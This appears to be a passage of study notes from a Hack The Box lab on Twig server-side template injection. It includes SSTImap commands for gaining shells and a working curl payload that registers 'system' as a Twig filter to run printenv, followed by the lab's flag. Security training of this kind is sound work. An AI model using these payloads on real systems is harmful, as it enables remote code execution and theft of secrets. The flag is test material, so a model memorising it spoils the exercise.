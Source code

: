 Note: When we notice that the mathematical expressions we submit are evaluated, the application may be vulnerable to XSS as well.

Let us test the above statement by submitting an XSS payload inside curly brackets to this section's exercise target. The result of doing so can be seen in the image below.

![image](https://academy.hackthebox.com/storage/modules/145/img/twig8.png)

**Questions**

Use what you learned in this section to obtain the flag which is hidden in the environment variables. Answer format: HTB{String}

```bash
#1
git clone https://github.com/vladko312/sstimap
./sstimap.py -u "http://83.136.252.32:30187" -f -s
#we got shells
#2
#https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("printenv")}}' http://94.237.56.188:44730
HTB{IWasJustAskingForYourName}
```
